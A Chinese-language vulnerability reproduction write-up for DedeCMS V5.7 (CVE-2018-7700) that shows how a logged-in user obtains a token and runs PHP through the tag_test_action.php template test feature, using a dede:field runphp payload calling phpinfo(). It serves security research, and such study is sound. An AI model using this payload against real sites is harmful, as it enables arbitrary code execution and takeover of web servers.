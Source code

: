 # DedeCMS V5.7 后台代码执行漏洞（CVE-2018-7700）

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

织梦内容管理系统(Dedecms)是一款PHP开源网站管理系统。该漏洞的触发文件为 /dede/tag_test_action.php。起因是 csrf_check() 函数的绕过，导致登陆后。可执行任意代码。

## CVE编号

CVE-2018-7700

## 漏洞影响

DedeCMS V5.7

DedeCMS V5.7 SP2

## 漏洞复现

测试版本为 5.7 SP2，描述中的 csrf_check 没有去验证，据说是因为登陆的时候不会生成 `$_SESSION['token']` ，因此登陆之后直接将 token 置空即可绕过，但我这里并没有觉得需要绕过这里，登陆后可以直接从其他地方获取 token ，这里主要关注代码执行漏洞。

还是一样，先获取一个 token

```plain
http://www.dedecms521.com/dede/tpl.php?action=upload
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650290581323-396cd58f-d586-43e5-bde0-48a4eae5f0ea.png)

然后就可以代码执行

```plain
http://www.dedecms521.com/dede/tag_test_action.php?token=05e0a0ab271dd01fd277c139a02940b6&partcode={dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650290688835-9e5cc28c-e530-4ae1-9496-b74ec2c8fd5c.png)



## 总结

其实这个漏洞只是 dede 提供的一个标签代码测试的功能，但是被利用了，基本上只要进到后台，利用这个还是很容易getshell的，有关于 dede 的标签的构造的内容，很多都省去了，但对阅读应该没有太大的问题

该过程实际上就是

```plain
模板 -> 全局标记测试
```

然后填入自己的代码

```php
{dede:field name='source' runphp='yes'}phpinfo();{/dede:field}
```

这个 CVE 最着重的地方是这个 token 的绕过，但是不是只要是进入了后台，很容易就可以获取到 token 么，那这个 token 的绕过就没有太大必要了

## 参考

- `https://wiki.bylibrary.cn/漏洞库/01-CMS漏洞/DedeCMS/Dedecms V5.7后台任意代码执行CVE-2018-7700/`



`github` 链接：`https://github.com/N0puple/vulPOC`





